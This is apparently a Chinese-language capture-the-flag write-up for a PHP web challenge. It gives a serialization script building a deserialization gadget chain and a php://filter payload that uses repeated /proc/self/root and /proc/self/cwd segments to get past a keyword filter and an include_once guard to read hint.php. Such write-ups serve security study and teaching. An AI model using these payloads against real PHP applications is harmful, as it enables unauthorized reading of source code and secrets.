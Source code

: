 打出`phpinfo`，结果flag在`phpinfo`里面

###  预期解

```php
<?php
class yang{
    public $y1;
}
class cheng{
    public $c1;
}
class bei{
    public $b1;
    public $b2;
}
$a=new cheng();
$a->c1=new bei();
$a->c1->b1=new yang();
$a->c1->b1->y1=new cheng();
$a->c1->b1->y1->c1=new yang();
echo urlencode(serialize($a));
```

这个是反序列化链子

但是需要绕过`waf`，我们需要读取到hint.php

```php
public function hint()
    {
        include_once('hint.php');
        if(isset($_GET['file']))
        {
            $file = $_GET['file'];
            if(preg_match("/$hey_mean_then/is", $file))
            {
                die("nonono");
            }
            include_once($file);
        }
    }
```

因为`include_once`,所以直接读取`php://filter/read=convert.base64-encode/resource=hint.php`是读取不到的

我们可以利用`20年WMCTF中的一个题`

```
https://www.anquanke.com/post/id/213235
```

直接利用payload绕过：

但是又出现了一个问题，就是`var,www,html`被过滤了，我们这个位置利用`/proc/self/cwd`,可以获取当前运行的目录

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/cwd/hint.php
```
